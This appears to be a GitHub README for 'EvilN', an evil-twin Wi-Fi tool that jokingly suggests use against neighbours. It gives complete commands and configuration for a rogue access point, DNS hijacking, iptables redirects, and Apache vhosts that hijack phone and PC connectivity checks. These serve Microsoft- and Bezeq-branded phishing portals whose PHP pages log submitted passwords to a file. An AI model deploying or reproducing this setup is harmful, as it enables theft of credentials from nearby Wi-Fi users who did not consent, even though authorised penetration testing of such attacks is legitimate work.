 # EvilN -> Evil-Neighbor

if you love your neighbors, this tool is for you :)

Just kiding (not really... ), 

I wrote it just for helping you with your Penetration testing/Red Team assesment

!ANY USE OF THIS TOOL IS AT YOUR OWN RISK!

I recommend working with kali linux, preferably from VMware, and to get a better result, 
use dual band (--dual), but for this you will need two wifi adapters - two alfa.

## If you like things done authomatically, Use:

### Dual Band (2.4GHz and 5GHz):
- iface1 assosiated to -channel2.4 (2.4GHz)
- iface2 assosiated to -channel5 (5GHz)
```python
python3 EvilN.py --dual --iface1 wlan1 --iface2 wlan0 --channel2.4 1 --channel5 36 --ssid "MyLan" --network 10.0.0.0/24 --CaptivePortal microsoft
OR
python3 EvilN.py --dual --iface1 wlan1 --iface2 wlan0 --channel2.4 1 --channel5 36 --ssid "MyLan" --network 10.0.0.0/24 --CaptivePortal default
OR
python3 EvilN.py --dual --iface1 wlan1 --iface2 wlan0 --channel2.4 1 --channel5 36 --ssid "MyLan" --network 10.0.0.0/24 --CaptivePortal bezeq
```

### 2.4GHz Single:
```python
python3 EvilN.py --band 2.4 --iface wlan0 --ssid "MyLan" --channel 1 --network 10.0.0.0/24 --CaptivePortal microsoft
OR
python3 EvilN.py --band 2.4 --iface wlan0 --ssid "MyLan" --channel 6 --network 10.0.0.0/24 --CaptivePortal default
OR
python3 EvilN.py --band 2.4 --iface wlan0 --ssid "MyLan" --channel 6 --network 10.0.0.0/24 --CaptivePortal bezeq
```

### 5GHz Single:
```python
python3 EvilN.py --band 5 --iface wlan1 --ssid "MyLan" --channel 36 --network 10.0.0.0/24 --CaptivePortal microsoft
OR
python3 EvilN.py --band 5 --iface wlan1 --ssid "MyLan" --channel 40 --network 10.0.0.0/24 --CaptivePortal default
OR
python3 EvilN.py --band 5 --iface wlan1 --ssid "MyLan" --channel 40 --network 10.0.0.0/24 --CaptivePortal bezeq
```

## If you like things done manually, Use:

### 1) Installation all pachages:
```bash
sudo apt update
sudo apt install -y apache2 php libapache2-mod-php
sudo apt install -y hostapd dnsmasq lighttpd php
```

### 2) Setting up wlan0 Interface:
```bash
sudo ip link set wlan0 down
sudo ip addr flush dev wlan0
sudo ip addr add 192.168.50.1/24 dev wlan0
sudo ip link set wlan0 up
```

### 3) configure dnsmasq.conf file:
```bash
interface=wlan0
bind-interfaces
no-resolv
log-queries

dhcp-range=192.168.50.10,192.168.50.100,12h
dhcp-option=3,192.168.50.1
dhcp-option=6,192.168.50.1

address=/#/192.168.50.1

address=/captive.apple.com/192.168.50.1
address=/www.msftconnecttest.com/192.168.50.1
address=/connectivitycheck.gstatic.com/192.168.50.1
```

### 4.A) configure hostapd.conf file (2.4 GHz):
```bash
interface=wlan0
driver=nl80211
ssid=TestNetworkName 
hw_mode=g
channel=6
auth_algs=1
wmm_enabled=0
```

### 4.B) configure hostapd.conf file (5 GHz):
```bash
interface=wlan0
driver=nl80211
ssid=TestNetworkName 
hw_mode=a
channel=36
auth_algs=1
wmm_enabled=1
```

### 5) configure a2enmod:
```bash
sudo systemctl start apache2
sudo a2enmod rewrite
sudo a2enmod headers
sudo systemctl restart apache2
```

### 5) Create captive Foles:
```bash
sudo mkdir -p /var/www/captive
```

### 6.A) Create Web Captive Portal (Default):
```bash
sudo mv index.html /var/www/captive/
sudo mv save.php /var/www/captive/
```

### 6.B) Create Web Captive Portal (Microsoft):
```bash
sudo mv Microsoft/index.html /var/www/captive/
sudo mv Microsoft/save.php /var/www/captive/
sudo mv Microsoft/password.php /var/www/captive/
sudo mv Microsoft/save2.php /var/www/captive/
sudo mv Microsoft/microsoft.svg /var/www/captive/
```

### 7) Create log file:
```bash
sudo touch /var/log/ca.log
```

### 8) Permission for file:
```bash
sudo chown www-data:www-data /var/log/ca.log
sudo chmod 640 /var/log/ca.log
```

### 9.A) Create Vhost (default):
```bash
nano /etc/apache2/sites-available/captive.conf
```

```bash
<VirtualHost *:80>
    ServerName captive.portal
    ServerAlias *
    DocumentRoot /var/www/captive
    <Directory /var/www/captive>
        AllowOverride All
        Require all granted
    </Directory>

    # iOS/macOS
    Alias /hotspot-detect.html /var/www/captive/index.html
    # Android
    Alias /generate_204 /var/www/captive/index.html
    # Windows
    Alias /connecttest.txt /var/www/captive/index.html

    RewriteEngine On
    RewriteCond %{REQUEST_URI} !^/save\.php$
    RewriteRule ^.*$ /index.html [L]

    Header always set Cache-Control "no-store, no-cache, must-revalidate, max-age=0"
    Header always set Pragma "no-cache"
    Header always set Expires "0"
</VirtualHost>
```

### 9.B) Create Vhost (Microsoft):
```bash
nano /etc/apache2/sites-available/captive.conf
```

```bash
<VirtualHost *:80>
    ServerName captive.portal
    ServerAlias *
    DocumentRoot /var/www/captive

    <Directory /var/www/captive>
        AllowOverride None
        Require all granted
        Options -MultiViews
    </Directory>

    Alias /hotspot-detect.html /var/www/captive/index.html
    Alias /generate_204       /var/www/captive/index.html
    Alias /connecttest.txt    /var/www/captive/index.html

    RewriteEngine On
    RewriteCond %{REQUEST_URI} !^/(hotspot-detect\.html|generate_204|connecttest\.txt)$
    RewriteRule ^/?(save\.php|password\.php|save2\.php|microsoft\.svg)$ - [L]

    RewriteCond %{REQUEST_FILENAME} -f [OR]
    RewriteCond %{REQUEST_FILENAME} -d
    RewriteRule ^ - [L]
    RewriteRule ^ /index.html [L]
    Header always set Cache-Control "no-store, no-cache, must-revalidate, max-age=0"
    Header always set Pragma "no-cache"
    Header always set Expires "0"
    Header always set X-VHost "captive-portal"
    AddType image/svg+xml .svg .svgz
</VirtualHost>
```

### 10) Start a2ensite:
```bash
sudo a2ensite captive.conf
sudo a2dissite 000-default.conf
sudo systemctl reload apache2
```


### 11) Create IpTables:
```bash
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j REDIRECT --to-ports 80
sudo iptables -t nat -A PREROUTING -i wlan0 -p udp --dport 53 -j REDIRECT --to-ports 53
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 53 -j REDIRECT --to-ports 53
```

### 12) start:
```bash
sudo dnsmasq -C dnsmasq.conf
sudo hostapd hostapd.conf
```

### Kill the process:
```bash
sudo pkill dnsmasq
sudo iptables -t nat -D PREROUTING -i wlan0 -p tcp --dport 80 -j REDIRECT --to-ports 80
sudo iptables -t nat -D PREROUTING -i wlan0 -p udp --dport 53 -j REDIRECT --to-ports 53
sudo iptables -t nat -D PREROUTING -i wlan0 -p tcp --dport 53 -j REDIRECT --to-ports 53
sudo rm dnsmasq.conf
sudo rm hostapd.conf
sudo rm /etc/apache2/sites-available/captive.conf
sudo rm /var/log/ca.log
sudo rm -r /var/www/captive/
sudo systemctl stop apache2
sudo ip link set wlan0 down
sudo ip addr flush dev wlan0
sudo ip link set wlan0 up
systemctl start NetworkManager
```
